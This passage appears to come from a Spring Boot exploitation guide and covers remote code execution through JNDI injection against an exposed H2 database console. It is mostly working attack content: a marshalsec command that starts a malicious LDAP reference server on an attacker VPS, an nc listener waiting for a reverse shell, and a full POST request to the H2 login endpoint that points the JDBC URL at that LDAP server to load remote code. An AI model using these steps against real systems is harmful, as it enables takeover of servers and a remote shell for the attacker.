 Download [marshalsec](https://github.com/mbechler/marshalsec) and use the following commands to set up the corresponding LDAP service:

|

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer [http://your-vps-ip:80/](http://your-vps-ip/)#JNDIObject 1389

 |

[](https://www.blogger.com/#)**Step 5:** Listen to the port of the bounce shell

Generally, use nc to listen to the port and wait for the rebound shell

```
nc -lv 443
```

**Step 6: **Send a packet to trigger JNDI injection

- According to the actual situation, replace jsessionid=xxxxxx, and in the following data www.example.com ldap://your-vps-ip:1389/JNDIObject

|

POST /h2-console/login.do?jsessionid=xxxxxx

Host: [www.example.com](http://www.example.com/)

Content-Type: application/x-www-form-urlencoded

Referer: <http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx>

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=ldap://your-vps-ip:1389/JNDIObject&user=&password=

 |

[](https://www.blogger.com/#)

#### Vulnerability Analysis:

- [Spring Boot + H2 Database JNDI Notes](<https://www.baeldung.com/spring-boot-h2-database>)

[](https://www.blogger.com/#)Vulnerable environment:

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

Normal access:

```
http://127.0.0.1:9096/h2-console _
```

### MySQL Jdbc Deserialization RCE

**[](https://www.blogger.com/#)Conditions of use:**
